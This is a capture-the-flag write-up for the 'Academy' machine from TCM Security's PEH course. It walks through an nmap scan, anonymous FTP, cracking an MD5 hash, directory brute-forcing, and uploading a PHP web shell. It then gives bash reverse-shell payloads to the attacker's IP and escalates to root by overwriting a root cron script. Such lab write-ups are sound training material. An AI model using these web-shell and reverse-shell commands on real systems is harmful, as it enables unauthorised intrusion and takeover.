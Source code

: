 ```yaml
---
title: "Academy Box - PEH Capstone TCM Security"
description: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
summary: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
date: 2024-02-04
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Web", "CTF", "Linux"]
canonicalURL: ""
showToc: false
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
---
```


------------------------

> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH


Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM.

![image](/images/md/264f4aa5-62fd-47d0-bb51-88a1fe8211e7.png)

After starting the target VM.

![image](/images/md/48ec1846-d9e4-4f40-a996-91b68db451f8.png)


Now that we have the target IP `192.168.0.113` let's run the `nmap`.

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](/images/md/94033cfd-6173-49d2-bc31-18b3621d137f.png)

![image](/images/md/8028de5e-668e-4123-8aef-42e27cb07c85.png)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page.

![image](/images/md/d0094763-f520-4028-a338-0aca0d6cb604.png)


There is nothing much to see in this default page so let's do the directory brute force.


```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```


We found the `/phpmyadmin/` and `/academy/` directories on the `http://192.168.0.113/academy/` page we have one login form.

![image](/images/md/8dcd96ba-f63a-4524-9ea6-95156c8ce0df.png)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](/images/md/a36b56d4-987e-4e97-834f-f1f0fc105bf4.png)


It worked we are now logged in. \
On the My Profile page we have file upload functionality.

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server.

![image](/images/md/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969.png)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](/images/md/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270.png)

![image](/images/md/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5.png)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie.

![image](/images/md/a6efd8be-7132-4ee9-86b2-b44bcb917ba6.png)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access.

![image](/images/md/ee82ccab-380c-485d-855c-247e8e2e7dcc.png)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](/images/md/0c2c4b55-7951-4637-ab07-86077b1ce395.png)

![image](/images/md/b1a801aa-7b03-4d4d-849a-6a7532c95b22.png)


Flag:

![image](/images/md/50dbf9b2-9236-4656-95ff-e7747b222a6c.png)

Happy Hacking